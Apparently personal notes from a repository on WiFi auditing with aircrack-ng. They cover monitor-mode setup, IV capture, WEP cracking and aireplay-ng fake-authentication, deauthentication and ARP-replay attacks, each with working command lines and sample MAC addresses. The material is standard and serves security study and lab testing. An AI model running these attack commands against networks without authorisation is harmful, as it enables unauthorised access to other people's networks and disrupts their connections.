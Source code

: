 # Notes on wifi configs and setup

## Keeping interface names
I was having issues with the external card until adjusting the below.
```bash
$ vim /etc/default/grub
GRUB_CMDLINE_LINUX="net.ifnames=0 biosdevname=0"
```
## airmon-ng
Set interface to monitor mode.
```bash
$ airmon-ng start wlan1
```

## Renaming interface (temporary)
Rename target interface to `wlan1` instead of systemd generated name.
```bash
$ iwconfig | grep wlx
wlx9cefd5fd1181  IEEE 802.11  ESSID:off/any 
$ ip link set wlx9cefd5fd1181 down
$ ip link set wlx9cefd5fd1181 name wlan1
$ ip link set wlan1 up
$ systemctl restart network-manager.service
```
[Understanding systemd’s predictable network device names](https://major.io/2015/08/21/understanding-systemds-predictable-network-device-names/)

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on target channel, BSSID and recording to file.
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs
```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

## aireplay-ng
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set `-1` count
  - `-o` Number of packets to send at a time
  - `-q` Number of seconds to send keep-alive packets
  - `-e` Filename to write
  - `-a` Target access point MAC address
```bash
$ aireplay-ng -1 180 -o 1 -q 10 -e capture -a A0:21:B7:60:2E:65 wlan1
```

Set attack mode [deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `--deauth` Set `deauth` count
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set desitnation MAC address
```bash
$ aireplay-ng --deauth 5 -e access_point -a A0:21:B7:60:2E:65 -c AC:65:21:B7:2E:60 wlan1
```

Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `--arpreplay` attack mode
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
  - `-r` Extract packets from target pcap file
  - `-x` Number of packets-per-second
```bash
$ aireplay-ng --arpreplay -b A0:21:B7:60:2E:65 -h AC:65:21:B7:2E:60 wlan1 -r replay_arp-0309-015533.cap -x 100
```

## Sources
[Aircrack-ng Newbie Guide for Linux](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
